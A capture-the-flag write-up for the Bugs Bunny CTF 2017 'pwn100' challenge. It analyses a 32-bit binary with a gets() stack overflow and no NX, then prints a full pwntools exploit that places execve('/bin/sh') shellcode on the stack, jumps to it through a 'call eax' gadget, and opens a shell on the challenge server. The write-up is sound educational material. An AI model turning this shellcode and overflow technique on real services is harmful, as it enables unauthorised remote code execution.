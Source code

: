 ```yaml
---
title: pwn100
category: bugs_bunny_ctf_2k17
author_member: muffinx
show_comments: false
---
```


Binary type (file linux command):

```
file pwn100
pwn100: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4eed8d04991f7b37ef1e309f1ecc983d7ff84333, not stripped
```

Binary security measurements (gdb-peda checksec):

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

The functionality is pretty straight forward:

```cpp
char *docopy()
{
  char s; // [sp+10h] [bp-18h]@1

  return gets(&s);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  docopy();
  return 0;
}
```

So just a basic stack overflow.
The only function available to us is gets().
Looking at the segments there is no wx(write/execute) segment which could be used to copy data to with gets.

```
.init         080482B0 080482D3 R . X . L dword 0001 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.plt          080482E0 08048320 R . X . L para  0002 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.text         08048320 080484C2 R . X . L para  0003 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini         080484C4 080484D8 R . X . L dword 0004 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.rodata       080484D8 080484E0 R . . . L dword 0005 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame_hdr 080484E0 08048514 R . . . L dword 0006 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame     08048514 080485E4 R . . . L dword 0007 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.init_array   08049F08 08049F0C R W . . L dword 0008 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini_array   08049F0C 08049F10 R W . . L dword 0009 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.jcr          08049F10 08049F14 R W . . L dword 000A public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got          08049FFC 0804A000 R W . . L dword 000B public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got.plt      0804A000 0804A018 R W . . L dword 000C public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.data         0804A018 0804A020 R W . . L dword 000D public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.bss          0804A020 0804A024 R W . . L byte  000E public BSS   32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
extern        0804A024 0804A044 ? ? ? . L para  000F public       32 FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF
```

So we have to execute our shellcode on the stack, which is actually possible since no NX is activated. So let's use some rop to jump into the stack.

When we look at the registers before the ret, we can see that eax actually points to our input.

```
EAX: 0xffffd470 ('A' <repeats 12 times>, "a")
EBX: 0xf7fa3000 --> 0x16fda8
ECX: 0xfbad2288
EDX: 0xf7fa4864 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xffffd488 --> 0xffffd498 --> 0x0
ESP: 0xffffd460 --> 0xffffd470 ('A' <repeats 12 times>, "a")
EIP: 0x804842e (<docopy+17>:	leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048423 <docopy+6>:	lea    eax,[ebp-0x18]
   0x8048426 <docopy+9>:	mov    DWORD PTR [esp],eax
   0x8048429 <docopy+12>:	call   0x80482f0 <gets@plt>
=> 0x804842e <docopy+17>:	leave  
```

I found a ropgadget with that we can jump into our placed shellcode:

```
ropgadget --binary pwn100
0x08048386 : call eax
```

Resulting in this exploit:


```python
#!/usr/bin/env python

from pwn import *
context(arch = 'i386', os = 'linux')

#r = process('./pwn100')
r = remote('54.153.19.139', 5252)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0804842F
#continue
#''')

payload = asm('xor eax,eax')
payload += asm('xor ecx,ecx')
payload += asm('xor edx,edx')
payload += asm('xor esi,esi')
payload += asm('mov eax,0x0b')
payload += asm('lea ebx,[esp-8]')
payload += asm('int 0x80')
payload += '/bin/sh\x00'

payload = ('\x90' * (28-len(payload))) + payload
payload += p32(0x08048386) # call EAX


r.sendline(payload)
r.interactive()
```

As you can see I used the shellcoding features of pwntools to build a working shellcode.
The "/bin/sh" string is at the end of the shellcode and the string pointer to it will be put
into ebx by using:

```
lea ebx,[esp-8]
```

Finally we got a shell:

```
$ cat /home/pwn100/flag
Bugs_Bunny{ohhhh_you_look_you_are_gooD_hacker_Maybe_Iknow_you:p}
```

